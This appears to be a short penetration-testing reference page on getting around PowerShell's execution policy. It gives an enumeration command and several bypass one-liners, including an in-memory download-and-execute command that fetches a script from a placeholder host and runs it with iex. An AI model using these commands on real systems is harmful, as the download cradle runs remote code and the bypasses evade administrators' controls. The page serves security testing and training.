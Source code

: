 # Powershell Restricted Mode

https://viperone.gitbook.io/pentest-everything/everything/powershell/restricted-mode

## Description

PowerShell's execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts.

On a Windows computer you can set an execution policy for the local computer, for the current user, or for a particular session. You can also use a Group Policy setting to set execution policies for computers and users.

## TIP: Microsoft stress in their documentation that Execution Policy / Restricted Mode is a safety feature and not a security feature.

## Enumeration

    Get-ExecutionPolicy | Format-Table -AutoSize

## Bypass

There are many ways to bypass the restriction. Most methods are based on reading the contents of the script and piping to the PowerShell.exe process in some way. 

    Get-Content .\Script.ps1 | powershell.exe -nop

##### Read contents and pipe to Powershell.exe (Writes to disk)

    Get-Content .\Script.ps1 | powershell.exe -nop
    Type .\Script.ps1 | powershell.exe -nop

##### Download and execute (In Memory)

    powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://<IP>/<File>')"

##### Potential simple bypass (Writes to disk)

    powershell -ep Bypass .\Script.ps1
    powershell -ep Unrestricted .\Script.ps1

##### Bypass process scope

    Set-ExecutionPolicy Bypass -Scope Process

##### Bypass current user scope

    Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
